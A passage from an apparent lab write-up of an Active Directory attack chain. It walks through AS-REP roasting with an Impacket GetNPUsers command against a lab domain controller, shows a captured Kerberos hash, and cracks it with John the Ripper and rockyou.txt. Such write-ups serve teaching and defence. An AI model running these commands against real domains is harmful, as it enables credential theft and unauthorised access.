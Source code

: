 **Attack Flow:**
> AS-REP Roasting ➞ Password Cracking ➞ RPC/SMB Enumeration ➞ BloodHound Mapping ➞ Pass-the-Hash ➞ Reverse Shell Access

---

## 4. Attack Execution

### 4.1 AS-REP Roasting & Password Cracking

**AS-REP Roasting** is a technique used to exploit user accounts in Active Directory that have the **"Do not require Kerberos pre-authentication"** setting enabled. This misconfiguration allows an attacker to request an encrypted **TGT** (**Ticket Granting Ticket**) directly from the Domain Controller without needing to send valid credentials first.
Once the encrypted TGT is received, it can be **cracked offline** using tools like John the Ripper. The attack is effective because it avoids detection and does not lock accounts during brute-force attempts.

**Step 1: Requesting AS-REP Hashes**

First, I prepared a file called `users.txt` containing a list of usernames I wanted to test from Active Directory. Then, I used the `GetNPUsers.py` script from the Impacket toolkit to extract Kerberos AS-REP hashes from the Domain Controller:
```bash
impacket-GetNPUsers cyberlabs.local/ -usersfile users.txt -request -dc-ip 192.168.1.233
```
- `impacket-GetNPUsers:` This script is used to request AS-REP hashes for users that have Kerberos pre-authentication disabled. 
- `cyberlabs.local/:` This specifies the domain name.
- `-usersfile users.txt:` This tells the script to read usernames from the file users.txt.                
- `-request:` This flag tells the script to actively request TGTs for those users.
- `-dc-ip 192.168.1.233`: This is the IP address of the Domain Controller to target.

**Result:**
If a user is vulnerable (doesn’t require pre-authentication), their TGT will be returned in the form of a **Kerberos AS-REP hash**, which I saved into a file named `hashes.txt` for the next step. **Extracted AS-REP Hash:** `$krb5asrep$23$BTarget@CYBERLABS.LOCAL:c4480233c4a762b114402fc9d8a53cd$7908763a4bbf19954c3d6e01038dabce6f908e529cb824d0a453e6b467096c13a676f29c0b0a8539c68f3b190c18859b1f3a61cbac5cf5996da02078a10ce78d7da8301a67a720a103e7e2097c0426cfdbb8e7f8409f59aa0247d777416a12c28bd18438a4ee9ea636950ae41c8a324654b696db2488d29d5a8add67bcda54bde2231d50b328c55af5ad3622f6bda3d332a3b75f1fdc00fc6336fb6e10e9e4adf31bccac5cf5996da02078c5c1aaa4a5f1d614b003b78c628b0bbdb59a4ce309b0a859c4c330354d096d1626eb8433e5d36d2506f6ef`

**Step 2: Cracking the Hash**

Once the hash was collected, I used **John the Ripper**, a powerful password-cracking tool, to try and brute-force the original password:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
- `john:` Runs John the Ripper.
- `--wordlist=/usr/share/wordlists/rockyou.txt`: Specifies the rockyou.txt wordlist, one of the most widely used collections of leaked passwords.
- `hashes.txt:` This file contains the Kerberos hash retrieved earlier.
